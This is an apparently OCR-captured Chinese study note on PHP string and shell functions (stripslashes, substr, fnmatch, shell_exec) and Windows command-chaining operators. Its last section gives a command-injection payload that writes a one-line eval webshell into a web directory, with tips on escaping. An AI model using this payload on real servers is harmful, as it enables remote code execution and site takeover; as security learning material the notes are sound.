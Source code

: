 ```php
stripslashes ( string $str ) : string
```

#### 返回值

返回一个去除转义反斜线后的字符串（_\'_ 转换为 _'_ 等等）。双反斜线（_\_）被转换为单个反斜线（_\_）。

### substr\(\)

substr\(\) 函数返回字符串的一部分

```php
substr(string,start,length)
```

### fnmatch

用模式匹配文件名

#### 原型

```php
fnmatch ( string $pattern , string $string [, int $flags = 0 ] ) : bool
```

**fnmatch\(\)** 检查传入的 `string` 是否匹配给出的 shell 统配符 `pattern`。

匹配则返回 **TRUE**，否则返回 **FALSE**。

### shell\_exec

通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。

#### 原型

```php
 shell_exec ( string $cmd ) : string
```

windows下连接命令的符号：**&&、&、\|、\|\|**命令拼接符号的区别

* A&B  简单的拼接，AB之间无制约关系
* A&&B   A执行成功，然后才会执行B
* A\|B  A的输出，作为B的输入
* A\|\|B  A执行失败，然后才会执行B

windows下命令注入写webshell：

用^转义&lt;

```php
echo ^<?php eval($_POST[pass]); ?^> > web目录shell.php
```

如果加上单引号会写不进去，如果加双引号会把双引号一起写进去，所以要用^转义&lt;

```php
echo '<?php eval($_POST[pass]); ?>' > web目录shell.php
```

